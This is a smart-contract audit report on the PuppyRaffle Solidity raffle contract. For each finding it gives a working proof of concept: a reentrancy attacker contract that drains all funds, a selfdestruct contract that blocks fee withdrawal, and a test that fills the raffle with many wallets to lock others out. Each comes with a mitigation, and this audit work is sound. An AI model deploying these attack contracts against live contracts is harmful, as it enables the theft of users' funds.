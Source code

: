 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="./logo.png" alt="Logo">
    <div>
    <h1>PuppyRaffle Audit Report</h1>
    <h3>Prepared by: Jack Landon</h3>
    </div>
</div>

</body>
</html>

Prepared by: [Jack Landon](https://sveltekit.io) on 2024-08-13
Lead Auditor:

- Jack Landon

# Table of Contents

- [Table of Contents](#table-of-contents)
- [Protocol Summary](#protocol-summary)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High Severity](#high-severity)
    - [\[H-1\] Reentrancy vulnerability in `PuppyRaffle::refund` function can be exploited to all native balance in the contract.](#h-1-reentrancy-vulnerability-in-puppyrafflerefund-function-can-be-exploited-to-all-native-balance-in-the-contract)
    - [\[H-2\] Weak Randomness in the `PuppyRaffle::selectWinner` function can be exploited to predict the winner.](#h-2-weak-randomness-in-the-puppyraffleselectwinner-function-can-be-exploited-to-predict-the-winner)
  - [Medium Severity](#medium-severity)
    - [\[M-1\] Unbounded Array looping in `PuppyRaffle:enterRaffle` function can prevent new players from entering the raffle.](#m-1-unbounded-array-looping-in-puppyraffleenterraffle-function-can-prevent-new-players-from-entering-the-raffle)
    - [\[M-2\] Unsafe casting of round fees will cause incorrect fee amount to be added to `totalFees` in `PuppyRaffle::selectWinner` function.](#m-2-unsafe-casting-of-round-fees-will-cause-incorrect-fee-amount-to-be-added-to-totalfees-in-puppyraffleselectwinner-function)
    - [\[M-3\] Mishandling of Native Currency in `PuppyRaffle::withdrawFees` that can prevent owner from withdrawing fees.](#m-3-mishandling-of-native-currency-in-puppyrafflewithdrawfees-that-can-prevent-owner-from-withdrawing-fees)
    - [\[M-4\] Smart Contract Raffle Winners without a `receive` or `fallback` function will block the start of a new contest](#m-4-smart-contract-raffle-winners-without-a-receive-or-fallback-function-will-block-the-start-of-a-new-contest)
  - [Low Severity](#low-severity)
    - [\[L-1\] Potential for arithmetic overflow in `PuppyRaffle::selectWinner` function may cause the fee to be incorrect.](#l-1-potential-for-arithmetic-overflow-in-puppyraffleselectwinner-function-may-cause-the-fee-to-be-incorrect)
    - [\[L-2\] 0th index value returned for `PuppyRaffle::getActivePlayerIndex` function when the player is not found, causing non-players to be considered as the 1st player (0th index).](#l-2-0th-index-value-returned-for-puppyrafflegetactiveplayerindex-function-when-the-player-is-not-found-causing-non-players-to-be-considered-as-the-1st-player-0th-index)
  - [Gas Optimizations](#gas-optimizations)
    - [\[G-1\] Unchanged state variables in `PuppyRaffle` contract should be made immutable or constant to reduce gas costs when calling upon them and deploying the contract.](#g-1-unchanged-state-variables-in-puppyraffle-contract-should-be-made-immutable-or-constant-to-reduce-gas-costs-when-calling-upon-them-and-deploying-the-contract)
    - [\[G-2\] Cache the `newPlayers.length` in the `PuppyRaffle::enterRaffle` function to reduce gas costs instead of calling from storage multiple times.](#g-2-cache-the-newplayerslength-in-the-puppyraffleenterraffle-function-to-reduce-gas-costs-instead-of-calling-from-storage-multiple-times)
  - [Informational/Non-Critical Severity](#informationalnon-critical-severity)
    - [\[I-1\] `RaffleEnter` event emits in the `PuppyRaffle::enterRaffle` function if the `newPlayers` array is empty.](#i-1-raffleenter-event-emits-in-the-puppyraffleenterraffle-function-if-the-newplayers-array-is-empty)
    - [\[I-2\] Floating Pragma Version `^0.7.6` is dangerous and should be pinned to a specific version.](#i-2-floating-pragma-version-076-is-dangerous-and-should-be-pinned-to-a-specific-version)
    - [\[I-3\] The used solidity version of `0.7.6` is missing some security features, and should be updated to a more recent version.](#i-3-the-used-solidity-version-of-076-is-missing-some-security-features-and-should-be-updated-to-a-more-recent-version)
    - [\[I-4\] Missing checks for `address(0)` when assigning `feeAddress` in constructor.](#i-4-missing-checks-for-address0-when-assigning-feeaddress-in-constructor)
    - [\[I-5\] `PuppyRaffle:selectWinner` does not follow CEI, which is not a best practice](#i-5-puppyraffleselectwinner-does-not-follow-cei-which-is-not-a-best-practice)
    - [\[I-6\] Use of magic numbers affects code readability](#i-6-use-of-magic-numbers-affects-code-readability)

# Protocol Summary

This project is to enter a raffle to win a cute dog NFT. The protocol should do the following:

1. Call the `enterRaffle` function with the following parameters:
   1. `address[] participants`: A list of addresses that enter. You can use this to enter yourself multiple times, or yourself and a group of your friends.
2. Duplicate addresses are not allowed
3. Users are allowed to get a refund of their ticket & `value` if they call the `refund` function
4. Every X seconds, the raffle will be able to draw a winner and be minted a random puppy
5. The owner of the protocol will set a feeAddress to take a cut of the `value`, and the rest of the funds will be sent to the winner of the puppy.

# Disclaimer

Jack Landon makes all effort to find as many vulnerabilities in the code in the given time period, but holds no responsibilities for the findings provided in this document. A security audit by the team is not an endorsement of the underlying business or product. The audit was time-boxed and the review of the code was solely on the security aspects of the Solidity implementation of the contracts.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

We use the [CodeHawks](https://docs.codehawks.com/hawks-auditors/how-to-evaluate-a-finding-severity) severity matrix to determine severity. See the documentation for more details.

# Audit Details

## Scope

- Commit Hash: e30d199697bbc822b646d76533b66b7d529b8ef5
- In Scope:

```
./src/
#-- PuppyRaffle.sol
```

## Roles

Owner - Deployer of the protocol, has the power to change the wallet address to which fees are sent through the `changeFeeAddress` function.
Player - Participant of the raffle, has the power to enter the raffle with the `enterRaffle` function and refund value through `refund` function.

# Executive Summary

There are a number of significant bugs and reconsiderations to be made in the codebase.
Whilst the findings are reported on in detail below, the individual bugs were reported with everything held constant.

It would be worth addressing the informational findings first, and then moving from High to Low severity.

## Issues found

| Severity      | Number of Issues Found |
| ------------- | ---------------------- |
| HIGH          | 2                      |
| MEDIUM        | 4                      |
| LOW           | 2                      |
| INFORMATIONAL | 6                      |
| Gas           | 2                      |
| TOTAL         | 16                     |

# Findings

## High Severity

### [H-1] Reentrancy vulnerability in `PuppyRaffle::refund` function can be exploited to all native balance in the contract.

**Description:**
The vulnerable function for reentrancy is the `PuppyRaffle::refund` function:

<details>
<summary>Code</summary>

```javascript
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);

        players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }
```

</details>

An attacker can create an attacker contract, so that when the `PuppyRaffle::refund` function hits this line of code:

```javascript
payable(msg.sender).sendValue(entranceFee);
```

...it will call the `receive` or `fallback` function in the attacker contract.
At this stage, it can execute any code before the `PuppyRaffle::refund` continues.

Since the `players[playerIndex]` is updated **after** this line of code:

```javascript
payable(msg.sender).sendValue(entranceFee);
// All Attacker::receive() logic will fully execute here

players[playerIndex] = address(0);
```

... the attack can re-call the `PuppyRaffle::refund` function inside the `receive`/`fallback` function.

As the Check for:

```javascript
require(playerAddress !=
  address(0), "PuppyRaffle: Player already refunded, or is not active");
```

... will still not be satisfied until **after** all of the `receive` logic has been executed, the attacker contract will be able to hit `payable(msg.sender).sendValue(entranceFee);` as many times as they want.

Once this is done, only then will the `PuppyRaffle::refund` nullify the `players[playerIndex]` address:

```javascript
players[playerIndex] = address(0);
```

**Impact:**
This allows anyone to create an attack to drain **all** of the native currency _out_ of the `PuppyRaffle` contract.
The cost to conduct this is the `entranceFee` + gas.

So the likelihood of this happening is high, and the impact is critical.

**Proof of Concept:**
We can simulate the following steps to prove reentrancy:

1. User enters raffle
2. Attacker deploys `ReentrancyAttacker` contract with a `receiver()`, which calls `PuppyRaffle::refund` in the `receive` function
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from the `ReentrancyAttacker` contract, draining the contract balance.

We can deploy this Attacker contract and run a test to see if it can drain the `PuppyRaffle` contract.

<details>
<summary>Code</summary>

```javascript
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 immutable entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);

        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));

        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```

</details>

And then we can add the following test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testReentrancy() public {
        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker reentrancyAttacker = new ReentrancyAttacker(puppyRaffle);
        address attackUser = makeAddr("attackUser");
        vm.deal(attackUser, entranceFee);

        uint256 startingAttackContractBalance = address(reentrancyAttacker).balance;
        uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

        vm.prank(attackUser);
        reentrancyAttacker.attack{value: entranceFee}();

        console.log("Starting Puppy Raffle Balance: ", startingPuppyRaffleBalance);
        console.log("Starting Attacker Balance: ", startingAttackContractBalance);

        console.log("Ending Puppy Raffle Balance: ", address(puppyRaffle).balance);
        console.log("Ending Attacker Balance: ", address(reentrancyAttacker).balance);

    }
```

</details>

The logs at the end of the test present as follows:

- Starting Puppy Raffle Balance: 5000000000000000000
- Starting Attacker Balance: 0
- Ending Puppy Raffle Balance: 0
- Ending Attacker Balance: 5000000000000000000

After calling the `ReentrancyAttacker::attack` function, the `PuppyRaffle` contract has 0 balance, and the attacker has all of the balance.

**Recommended Mitigation:**
Use CEI (Checks-Effects-Interactions) pattern to prevent reentrancy attacks.
This involves re-arranging the order of steps in the `PuppyRaffle::refund` function.

```diff
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);
        payable(msg.sender).sendValue(entranceFee);

-       players[playerIndex] = address(0);
-       emit RaffleRefunded(playerAddress);
    }
```

Before doing the external call to the attacking contract, the `players[playerIndex]` is nullified, so when the attacking contract calls it's `receive` or `fallback` function, the `players[playerIndex]` will be `address(0)` and the function will revert.
We should also move the `RaffleRefunded` event emission up as well.

### [H-2] Weak Randomness in the `PuppyRaffle::selectWinner` function can be exploited to predict the winner.

**Description:**
The blockchain is a deterministic system, so attempting to find randomness within the system will return a deterministic value.
There are multiple tools people and miners have to predict the outcome of a random number.

In the `selectWinner` function, this is used to select the winning index:

```javascript
uint256 winnerIndex = uint256(keccak256(abi.encodePacked(msg.sender, block.timestamp, block.difficulty))) % players.length;
```

The following variable are used:

- `msg.sender` - Anyone can mine addresses until they find one that will make them the winner.
- `block.timestamp` - Miners have the ability to affect this by holding onto the transaction, or rejecting them at certain timestamps.
- `block.difficulty` - This will be known by the miners, and they can use this manipulate their hash rate and influence the outcome.
- `players.length` - This is known by everyone

Using all of these value, it's possible for miners to influence these values to make sure they are the winner.

A similar randomness method is also used later in the function to determine the rarity of the NFT:

```javascript
uint256 rarity = uint256(keccak256(abi.encodePacked(msg.sender, block.difficulty))) % 100
```

This is even easier to predict and influence for miners as there are only 2 variables needed to influence the outcome.
They simly need create a list of `msg.sender` values, and then they only need to solve for `block.difficulty`.

As anyone has access to an almost-infinite amount of addresses, and miners have access to (and influence of) the `block.difficulty`, this is a very weak source of randomness.

**Impact:**
If some actors can determine or influence the outcome of the winner, the raffle is not entirely fair.

It won't break the entire system, however if participants are aware of this vulnerability, it could lead to discouragement from participating in the raffle.

This also means that users could front-run the `PuppyRaffle::refund` function if they know they're not the winner.

**Recommended Mitigation:**
Use a cryptographically provable random number. [Chainlink VRF](https://docs.chain.link/vrf/v2/subscription/examples/get-a-random-number) is a good option and can be used to provide a secure source of randomness.
Commit Reveal Scheme can also be used. This is where a commitment is made, which will be a hash combined with some random data.

`block.timestamp` has recently replaced `block.timestamp` in `solidity 0.8.18, which is more random, however it's still predictable and should still _not_ be used for randomness.

## Medium Severity

### [M-1] Unbounded Array looping in `PuppyRaffle:enterRaffle` function can prevent new players from entering the raffle.

**Description:**
An attacker can cheaply guarantee the win by preventing new players from entering the raffle.
As the duplicate address check in the `PuppyRaffle:enterRaffle` function will loop through all players (no matter how many players there are), the gas cost for each new player to enter the raffle will increase linearly with the number of players.

If this is number of player is pushed to the ~ around 200 players, the function will hit a gas limit and revert, preventing new players from successfully calling the function at all.

```javascript
        // @audit Denial of Service with unbounded array looping
@>        for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }
```

**Impact:**
Later entrants will pay significantly more gas to enter the raffle than earlier entrants, as each entrant pays for the linearly increasing loop of the `players` array.
This can cause a rush at the start of the raffle, and discourage later entrants.

This array can get so big that no other addresses can enter.

IMPACT: High
Likelihood: Medium

**Proof of Concept:**
Let's first push the players count beyond 200 and show that the contract will revert.

<details>
<summary>Place the following test into the `PuppyRaffleTest.t.sol`</summary>

```javascript
    function testDenialOfService() public {
        for (uint256 i = 0; i < 300; i++) {
            address[] memory players = new address[](1);
            address newAddress = address(i);
            players[0] = vm.addr(i + 1);
            if (i > 199) {
                vm.expectRevert();
                puppyRaffle.enterRaffle{value: entranceFee}(players);
            } else {
                puppyRaffle.enterRaffle{value: entranceFee}(players);
            }
        }
    }
```

</details>

Given how cheaply you can push blow the state `players` array to more than this, an attacker could distribute `entranceFee` to 200 wallets, and call the `enterRaffle` function with each of them - effectively blocking any more players to enter the raffle.

This would guarantee a win for the attacker at the cost of 200 \* `entranceFee`.

Beyond this, you can see how much more gas-expensive it is for later entrants to enter the raffle than earlier entrants.

```javascript
    function testIncreasingGasCosts() public {
        vm.txGasPrice(1);

        uint256 playersNum = 100;

        // For the first 100 players
        address[] memory players = new address[](playersNum);
        for (uint256 i = 0; i < playersNum; i++) {
            players[i] = address(i);
        }
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();

        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas used of the 1st 100 players: ", gasUsedFirst);

        // For the second 100 players
        address[] memory playersTwo = new address[](playersNum);

        for (uint256 i = 0; i < playersNum; i++) {
            playersTwo[i] = address(i + playersNum);
        }
        gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee * playersTwo.length}(playersTwo);
        gasEnd = gasleft();

        uint256 gasUsedSecond = (gasStart - gasEnd) * tx.gasprice;
        console.log("Gas used of the 2nd 100 players: ", gasUsedSecond);

        assert(gasUsedSecond > gasUsedFirst);
    }
```

And you will return the following logs:

- Gas used of the 1st 100 players: 6252128
- Gas used of the 2nd 100 players: 18068215

The gas cost for the 2nd 100 players to enter the raffle is 2.9x more than the first.

**Recommended Mitigation:**
There are a few recommendations:

1. Consider removing the duplicate check. Wallets are free to create, so preventing duplicates doesn't prevent the same person from entering multiple times; just the specific address.
2. Consider using a mapping to check for duplicates. This would allow for constant time lookup to check for whether they've entered.

```diff
+   uint256 public raffleId = 0;
+   mapping(address => uint256) walletLastRaffle;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }

+       // Check for duplicates and update walletLastRaffle
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+           require(walletLastRaffle[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+           walletLastRaffle[newPlayers[i]] = raffleId;
+       }
-       // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
-           // @audit-high start j from 0 so it checks for duplicates across ALL players. Only allow duplicate when i == j
-           // @audit-high i can == address(0), and j can == address(0), so it will incorrectly exit function
-           for (uint256 j = i + 1; j < players.length; j++) {
-               // @audit if (i == j) continue;
-               require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-           }
-       }
        .
        .
        .
        function selectWinner() external {
            require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
            require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
+           raffleId++;
        }
    }
```

3. Alternatively, the [OpenZeppelins EnumerableSet Library](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/structs/EnumerableSet.sol) could be utilized to handle this functionality.

Change players to a mapping and for each additional player, increment the `playersCount` variable.

### [M-2] Unsafe casting of round fees will cause incorrect fee amount to be added to `totalFees` in `PuppyRaffle::selectWinner` function.

**Description:**
In the `PuppyRaffle::selectWinner` function, the fee is calculated as follows:

```javascript
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);
```

When `fee` is casted to a `uint64`, it's max value can be `18446744073709551615`.
If the `fee` is greater than this, it will wrap around to 0, and the `totalFees` will be incorrect.

**Impact:**
The impact of this issue on the protocol is minimal, other than that `totalFees` will be incorrect.
This could lead to the `totalFees` being lower than it should be, and the owner of the contract not receiving the correct amount of fees.

**Proof of Concept:**

1. We enter the raffle with 100 players.
2. We calculate the `fee` and cast it to a `uint64`.
3. We add the `fee` to the `totalFees`.
4. We check that the `fee` is less than the original `fee`.
5. If it is, the `totalFees` is incorrect.
6. You would not be able to withdraw in the `PuppyRaffle:withdraw` function because of this line:
   ```javascript
   require(address(this).balance ==
     uint256(totalFees), "PuppyRaffle: There are currently players active!");
   ```
   And `address(this).balance` > `totalFees` because `totalFees` would be incorrect.

To prove this, we can add a test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testUnsafeCast() public {
        uint256 numPlayers = 100;

        address[] memory players = new address[](numPlayers);
        for (uint256 i = 0; i < numPlayers; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players);

        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        console.log(fee);
        uint64 castedFee = uint64(fee);
        console.log(uint256(castedFee));

        assert(castedFee < fee);
    }
```

The logs are as follows:
Logs:

- 20000000000000000000
- 1553255926290448384

The `fee` is 20 ETH as the original `uint256` value, however when it is casted as a `uint64`, it becomes 1.55 ETH.

**Recommended Mitigation:**
Change the `totalFees` storage variable to a `uint256` type so this type of casting isn't required.

<details>
<summary>Changes</summary>

```diff
-    uint64 public totalFees;
+    uint256 public totalFees;
    .
    .
    .
    function selectWinner() external {
    .
    .
    .
-   totalFees = totalFees + uint64(fee);
+   totalFees = totalFees + fee;
    .
    .
    .
    }
```

</details>

### [M-3] Mishandling of Native Currency in `PuppyRaffle::withdrawFees` that can prevent owner from withdrawing fees.

**Description:**
By enabling the `PuppyRaffle` contract to have more balance than it expects as `totalFees`, the `withdrawFees` function could be bricked.

This is the `PuppyRaffle::withdrawFees` function.

```javascript
    function withdrawFees() external {
        require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
        uint256 feesToWithdraw = totalFees;
        totalFees = 0;
        (bool success,) = feeAddress.call{value: feesToWithdraw}("");
        require(success, "PuppyRaffle: Failed to withdraw fees");
    }
```

The first `require` line checks that the caller doesn't withdraw more funds than it should.

```javascript
require(address(this).balance ==
  uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Griefers could also use `selfdestruct(puppyRaffleAddress)` in an attacking contract with some native balance, it will increase the balance of the `PuppyRaffle` contract, and therefore the `address(this).balance` > `totalFees` value.

**Impact:**
If this exploit is used, the owner of the contract will not be able to withdraw the fees from the contract.

**Proof of Concept:**
To prove this, we can create a SelfDestructAttack contract.

<details>
<summary>Code</summary>

```javascript
contract AttackSelfDestruct {
    SelfDestructMe target;

    constructor(SelfDestructMe _target) payable {
        target = _target;
    }

    function attack() external payable {
        selfdestruct(payable(address(target)));
    }
}
```

</details>

Now we can add a test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testSelfDestruct() public playersEntered {
        address senderAddress = makeAddr("senderAddress");
        vm.deal(senderAddress, entranceFee);
        vm.expectRevert();
        vm.prank(senderAddress);
        (bool success, ) = payable(address(puppyRaffle)).call{value: entranceFee}("");
        require(success, "Failed to send money to raffle");

        uint256 puppyRaffleBalanceBefore = address(puppyRaffle).balance;
        console.log("Puppy Raffle Balance Before: ", puppyRaffleBalanceBefore);

        AttackSelfDestruct attackSelfDestruct = new AttackSelfDestruct(address(puppyRaffle));
        attackSelfDestruct.attack{value: entranceFee}();

        uint256 puppyRaffleBalanceAfter = address(puppyRaffle).balance;
        console.log("Puppy Raffle Balance After: ", puppyRaffleBalanceAfter);

        vm.warp(block.timestamp + duration + 1);
        puppyRaffle.selectWinner();
        vm.expectRevert();
        puppyRaffle.withdrawFees();
    }
```

</details>

At the end, we expect a revert when the `withdrawFees` function is called.
As the `puppyRaffle.balance` is greater than `totalFees`, the `require` statement is failing, and therefore the `withdrawFees` function is broken.

**Recommended Mitigation:**
The `require` statement is too strict, and should implement something like this:

```diff
-   require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
+   require(address(this).balance >= uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

### [M-4] Smart Contract Raffle Winners without a `receive` or `fallback` function will block the start of a new contest

**Description:**
The `PuppyRaffle::selectWinner` function is responsible for setting the winner of the raffle and sending them the prize pool.

<details>
<summary>Code</summary>

```javascript
    function selectWinner() external {
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        .
        .
        .
        raffleStartTime = block.timestamp;
        previousWinner = winner;

        (bool success,) = winner.call{value: prizePool}("");
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
    }
```

</details>

At the end, the `require` statement requires the preceeding call to have succeeded:

```javascript
(bool success,) = winner.call{value: prizePool}("");
```

If the `winner` address is a contract without a `receive` or `fallback` function which succeeds, then `success` will be `false`, and the whole transaction will revert.

**Impact:**
The `PuppyRaffle::selectWinner` function could revert a lot of times, making the raffle reset difficult, and waste a lot of gas.

Also, true winner may not get paid out, and someone else could take the winnings.

**Proof of Concept:**

1. 10 contracts enter the lottery, each without a `receive` or `fallback` function.
2. The raffle ends
3. One of those contracts will win, however none of them can accept the winnings

**Recommended Mitigation:**
Instead of paying out and requiring for it to succeed, a mapping could be used for the winners to withdraw their winnings themselves.

```diff
+   mapping(address => uint256) public walletWinnings;
    .
    .
    .
    function selectWinner() external {
        .
        .
        .
+       walletWinnings[winner] += prizePool;
-       (bool success,) = winner.call{value: prizePool}("");
-       require(success, "PuppyRaffle: Failed to send prize pool to winner");
    }

+   function claimWinnings(address _to) external {
+       uint256 winningsToSend = walletWinnings[_to];
+       walletWinnings[_to] = 0;
+       (bool success,) = _to.call{value: winningsToSend}("");
+       require(success, "PuppyRaffle: Failed to send winnings");
+   }
```

A separate `PuppyRaffle::claimWinnings` function is added, and a `_to` address is passed in to claim the winnings.
If the winner can't accept the winnings as the contract doesn't have a `receive` or `fallback` function, then the prize pool will be locked.

Adding a `_to` parameter means they can select the address to send the winnings to.

## Low Severity

### [L-1] Potential for arithmetic overflow in `PuppyRaffle::selectWinner` function may cause the fee to be incorrect.

**Description:**
In the `PuppyRaffle::selectWinner` function, there is the following code:

```javascript
        uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        totalFees = totalFees + uint64(fee);
```

`totalFees` is a `uint64` value, and therefore can hold a maximum value of `18446744073709551615`.
That allows for 18.4 ETH.

As the compiler version of the `PuppyRaffle` contract is `0.7.6`, there are no checks in place to prevent this overflow.
If the totalFees value goes over this max value, it will wrap around to 0.

**Impact:**
If the expectation is that `fees` will never get to this amount, then it is okay.
The

**Proof of Concept:**
To prove the overflow, we can add a test to `PuppyRaffleTest.t.sol`:

<details>
<summary>Code</summary>

```javascript
    function testOverflow() public {
        uint256 numPlayers = 1000;

        address[] memory players = new address[](numPlayers);
        for (uint256 i = 0; i < numPlayers; i++) {
            players[i] = address(i);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(players);
        vm.warp(block.timestamp + duration + 1);
        puppyRaffle.selectWinner();

        address[] memory playersTwo = new address[](numPlayers);
        for (uint256 i = 0; i < numPlayers; i++) {
            playersTwo[i] = address(i + numPlayers);
        }
        puppyRaffle.enterRaffle{value: entranceFee * numPlayers}(playersTwo);
        uint64 totalFeesBefore = puppyRaffle.totalFees();
        console.log(uint256(totalFeesBefore));
        vm.warp(block.timestamp + duration + 1);
        puppyRaffle.selectWinner();
        uint64 totalFeesAfter = puppyRaffle.totalFees();
        console.log(uint256(totalFeesAfter));

        assert(totalFeesAfter < totalFeesBefore);
    }
```

</details>

The logs return this:
Logs:
-15532559262904483840
-12618374452099416064

The `totalFees` should only increase, and therefore be higher after the second round.
We can see that the `totalFees` has decreased, which means that it has wrapped around to 0 and started counting up again.

**Recommended Mitigation:**
Solidity versions >= 0.8 have built-in checks for overflow/underflow. Using a version of solidity that has these checks would the most simple and best way to avert this.

There are libraries such as [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math) that can be used to prevent this overflow.

A `uint256` type for `totalFees` should also be used.
Even if the fixes above are used, the transaction can revert if `totalFees` attempts to go above `type(uint64).max`.
This max value is very possible, and it may gridlock functionality of the contract.

If `uint256` is used, the `totalFees` would need to increase to an unreasonably high number the break.
A number so high that you would expect to reach it:

```diff
-    uint64 public totalFees;
+    uint256 public totalFees;
    .
    .
    .
    function selectWinner() external {
    .
    .
    .
-   totalFees = totalFees + uint64(fee);
+   totalFees = totalFees + fee;
    .
    .
    .
    }
```

### [L-2] 0th index value returned for `PuppyRaffle::getActivePlayerIndex` function when the player is not found, causing non-players to be considered as the 1st player (0th index).

**Description:**
When a non-player calls `PuppyRaffle::getActivePlayerIndex`, the function will return a 0 value, which is the 0th index of the `players` array.

```javascript
    function getActivePlayerIndex(address player) external view returns (uint256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
        return 0;
    }
```

This means they could assume they are the 0th indexed player, and attempt to use that value to call `PuppyRaffle::refund`, which would inevitable revert (unless they are indeed the 0th index player).

The actual 0-indexed (1st) player may also interpret that they are not an active player, when indeed they are.

**Impact:**
As this function is simply an external function as a means to get the index of a player, it's impact on the protocol is minimal.
The implementation of the code doesn't rely on this function.

**Proof of Concept:**
Add this test to the `PuppyRaffleTest.t.sol` where we prove that a non-player will have the same index returned as the first player:

<details>
<summary>Code</summary>

```javascript
   function testZeroIndexOnNonPlayer() public {
        address playerZero = makeAddr("playerZero");
        address[] memory rafflePlayers = new address[](1);
        rafflePlayers[0] = playerZero;

        vm.deal(playerZero, entranceFee);
        puppyRaffle.enterRaffle{value: entranceFee}(rafflePlayers);

        address nonPlayer = makeAddr("nonPlayer");
        uint256 nonPlayerIndex = puppyRaffle.getActivePlayerIndex(nonPlayer);
        uint256 playerZeroIndex = puppyRaffle.getActivePlayerIndex(playerZero);

        assertEq(nonPlayerIndex, 0);
        assertEq(nonPlayerIndex, playerZeroIndex);
    }
```

</details>

**Recommended Mitigation:**
There are 2 solutions here:

1. Return a `-1` value if the player is not found.
2. Use the `PuppyRaffle::_isActivePlayer` function to check if the player is active before returning the index.

For the first solution, this is how you could return a `-1` value for a non-player:

```diff
-   function getActivePlayerIndex(address player) external view returns (uint256) {
+   function getActivePlayerIndex(address player) external view returns (int256) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
-       return 0;
+       return -1;
    }
```

This is how you could address the second solution.
Since there is a `PuppyRaffle::_isActivePlayer` function used, perhaps this should be used as a require statement at the beginning of the `PuppyRaffle::getActivePlayerIndex` function.

```diff
    function getActivePlayerIndex(address player) external view returns (uint256) {
+       require(_isActivePlayer(player), "PuppyRaffle: Player is not active");
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == player) {
                return i;
            }
        }
-       return 0;
    }
```

## Gas Optimizations

### [G-1] Unchanged state variables in `PuppyRaffle` contract should be made immutable or constant to reduce gas costs when calling upon them and deploying the contract.

**Description:**
Reading from storage is much more expensive than reading from a constant or immutable variable.

The following variables in the `PuppyRaffle` can be made immutable or constant:

<details>
<summary>Changes to PuppyRaffle</summary>

```diff
-    uint256 public raffleDuration;
+    uint256 public immutable raffleDuration;

-    string private commonImageUri = "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
